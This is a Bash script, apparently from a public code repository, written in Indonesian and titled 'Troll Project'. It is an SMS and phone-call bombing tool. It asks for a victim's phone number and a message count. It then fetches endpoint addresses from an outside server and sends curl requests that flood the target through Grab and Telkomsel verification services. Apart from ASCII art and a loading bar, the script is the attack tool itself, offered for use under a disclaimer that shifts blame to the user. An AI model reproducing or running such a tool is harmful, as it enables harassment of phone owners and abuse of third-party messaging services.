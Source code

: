 #!/bin/bash
#Boom spam SMS dan Call
#Mr.FL45H SHADOW
#PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI
#GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :)
troll(){
    clear
    sleep 0.03
    echo "         _ "
    sleep 0.03
    echo "        /_)  _.-===-._ "
    sleep 0.03
    echo "       /  .; '_-.'- .'.     _ "
    sleep 0.03
    echo "  __ _/  /.'\ ._  '. , \   (_\ "
    sleep 0.03
    echo " /\_( \  |.'.-._'- .  '|     \ "
    sleep 0.03
    echo " |_)  /  |/'    ''--''\|     _\__ "
    sleep 0.03
    echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "
    sleep 0.03
    echo " )/  (  \_      _      _/   \' (_| "
    sleep 0.03
    echo " /   /    \           /     _) (_/ "
    sleep 0.03
    echo " |   '',_ _'._'---'_.'_ _,.'    | \ "
    sleep 0.03
    echo " \    /  \ \  '''''  / / /     /   \ "
    sleep 0.03
    echo "  \_.'    \ \       / /  |   .' "
    sleep 0.03
    echo "   '--.,   \ \     / /  _;-'' "
    sleep 0.03
    echo "       '|   \ \   / /   | "
    sleep 0.03
    echo "       .;----'''''''----;. "
    sleep 0.03
    echo "      /(                 )\ "
    sleep 0.03
    echo "      \_''-------------''_/ "
    sleep 0.03
    echo "      | '';-----;-----;'' | "
    sleep 0.03
    echo "      | / : \ / : \ / : \ | "
    sleep 0.03
    echo "      |V.','.V.','.V.','.V| "
    sleep 0.03
    echo "      \'./_\.;./_\.;./_\.'/ "
    sleep 0.03
    echo "       ';..___________..;' "
    sleep 0.03
    echo " ============================="
    sleep 2
    echo " ==      Troll Project      =="
    echo " ==     Mr.FL45H SHADOW     =="
    sleep 0.7
    echo " ============================="
}
load(){
    echo -e "\n"
    bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
    barlength=${#bar}
    i=0
    while((i<100)); do
        n=$((i*barlength / 100))
        printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"
        ((i += RANDOM%5+2))
        sleep 0.2
    done
}
get_sms=$(curl -s http://zlucifer.com/api/hackbae.php?request=sms)
get_call=$(curl -s http://zlucifer.com/api/hackbae.php?request=call)
mulai (){
    echo "Gunakan Troll Project Lagi?"
    echo "y/n?"
    echo
    read lagi
    if [ $lagi = "y" ]; then
            spam
    else
            echo "Terimakasih sudah menggunakan Troll project"
    fi
}
#spam
spam(){
    clear
    troll
    echo
    echo "[1] Spam SMS"
    echo "[2] Spam Telp"
    echo "[3] Close Troll Project"
    echo
    echo "1/2/3?"
    read pilih
    if [ $pilih = "1" ]; then
            echo "Troll Spam SMS"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812××××××××
            read target # masukin no telp
            echo
            echo "Berapa sms yang mau dikirim?"
            read paket
            echo
            echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                    load
                    clear
                    echo Melakukan spam SMS ke nomor $target
                    echo
                    echo "Jangan close aplikasi sebelum spam selesai"
                    echo "========================================"
                    target_do=$get_sms'/sms.php?nomor='$target'&paket='$paket
                    CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`
                    echo " Gunakan tools dengan bijak"
                    echo
                    echo " Love u zeyenk "
                    echo " Mr.FL45H SHADOW "
                    echo " TERIMA KASIH "
                    echo "======================================="
            else
                    echo "Kesalahan"
            fi
        mulai
    elif [ $pilih = "2" ]; then
            echo "Troll Spam Call"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812××××××××
            read target # masukin no telp
            echo
            echo "Gunakan API Grab/TELKOMSEL?"
            echo "[1] GRAB"
            echo "[2] TELKOMSEL"
            echo "1/2?"
            read api
            if [ $api = "1" ]; then
                  api_spam="grab"
            else
                  api_spam="telkomsel"
            fi
            echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                  load
                  clear
                  echo Melakukan spam call ke nomor $target
                  echo
                  echo "Jangan close aplikasi sebelum spam selesai"
                  echo "========================================"
                  cek_target=`curl -s $get_call/call.php?nomor=$target"&method="$api_spam`
                  echo -e $cek_target
                  echo " Gunakan tools dengan bijak"
                  echo
                  echo " Love u zeyenk "
                  echo " Mr.FL45H SHADOW "
                  echo " TERIMA KASIH "
                  echo "========================================"
            else
                  echo Kesalahan, silahkan coba lagi
            fi
        mulai
    elif [ $pilih = "3" ]; then
        echo "Terimakasih sudah menggunakan Troll project"
        close
    else
        clear
        echo "Kesalahan"
        mulai
    fi
}
close(){
    exit
}
clear
echo "Loading.."
load
clear
troll
echo Selamat datang kak, Siapa nick kaka? #tulisan keluar
read nick #membaca yang ditulis
clear
troll
echo Selamat datang $nick ":)"
echo
echo "Mulai troll project?"
echo "y/n?"
read mulai
if [ $mulai = "y" ]; then
      spam
else
      close
fi
